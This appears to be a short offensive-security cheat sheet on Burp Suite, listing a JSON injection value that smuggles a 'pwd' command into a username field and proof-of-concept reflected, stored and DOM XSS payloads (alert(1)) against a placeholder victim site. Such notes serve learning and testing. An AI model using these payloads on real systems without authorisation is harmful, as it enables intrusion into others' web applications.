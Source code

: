 ```yaml
---
title: Burp Suite
desc: Security testing tool for web applications.
tags: [ActiveRecon, BrokenAccessControl, BruteForce, OAuth, Password, SQLi, SSRF, XSS]
alts: [OwaspZap]
website: https://portswigger.net/burp
---
```


## Json injection (HTTP POST request)

```json
{ "username": "\"; pwd \"" }
```

<br />

## XSS (Cross-site scripting)

### 1. Reflected XSS

```html
https://victim_site.com/item?id=<script>alert(1)</script>

<!-- ------------------------------------------------ -->

<p><script>alert(1)</script></p>
```

<br />

### 2. Stored XSS

```html
POST /post/comment HTTP/1.1
Host: victim_site.com
Content-Length: 52

id=2&message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

<!-- ---------------------------------------------------- -->

<p><script>alert(1)</script></p>
```

<br />

### 3. DOM XSS

```html
<img src=1 onerror='alert(1)' />

<!-- ---------------------------------------------------- -->

<p>
    Search result for <img src=1 onerror='alert(1)' />
</p>
```